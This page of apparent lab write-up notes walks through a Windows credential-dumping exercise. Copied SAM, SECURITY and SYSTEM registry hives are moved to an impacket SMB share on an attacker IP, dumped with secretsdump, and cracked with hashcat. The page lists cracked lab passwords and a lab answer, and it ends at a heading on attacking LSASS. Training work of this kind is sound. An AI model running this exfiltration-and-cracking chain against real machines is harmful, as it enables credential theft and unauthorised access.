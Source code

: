 Remmina -> Connect using RDP to Win machine

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/zihuatanejo`

`move sam.save \\10.10.15.16\CompData`

`move security.save \\10.10.15.16\CompData`

`move system.save \\10.10.15.16\CompData`

`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`

* ![](<.gitbook/assets/image (173).png>)

`nano haskestocrack.txt`

* store the HTLM hashes (last strings) into the txt file...

`sudo hashcat -m 1000 hashestocrack.txt Desktop/rockyou.txt`

Administrator:mommy1

ITbackdoor:<mark style="color:green;">**matrix**</mark>

frontdesk:Password123

**Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)**

<mark style="color:green;">**frontdesk:Password123**</mark>

### Attacking LSASS

#### LSASS capabilities

after initial login, LSASS will:

* cache creds locally in memory
* create access tokens
* enforce security policies
* write to win sec log
